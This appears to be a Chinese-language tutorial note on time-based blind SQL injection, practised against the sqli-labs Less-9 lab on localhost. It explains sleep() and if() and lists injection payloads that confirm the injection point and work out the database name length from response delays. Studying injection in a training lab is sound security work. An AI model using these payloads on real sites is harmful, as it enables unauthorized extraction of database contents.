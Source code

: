 ![image-20241124162855588](./assets/image-20241124162855588.png)

## 时间盲注

### 原理

页面无论输入什么内容均只有一种显示。

### 函数说明

sleep()

```sql
select sleep(4)
```

if(a,b,c)	a:条件	b:条件为真	c:条件为假

```sql
select if((select ascii(substring('security',2,1))=101),1,sleep(3))
```

### 判断注入点注入类型

```sql
http://127.0.0.1/sqli-labs-master/Less-9/?id=1

http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and sleep(10) -- -
```

### 判断当前数据库名长度

```sql
select database()
select length(database())
select length(database())=8
select if((select length(database())=8),1,sleep(3))

http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and if((select length(database())=8),1,sleep(3)) -- -
```

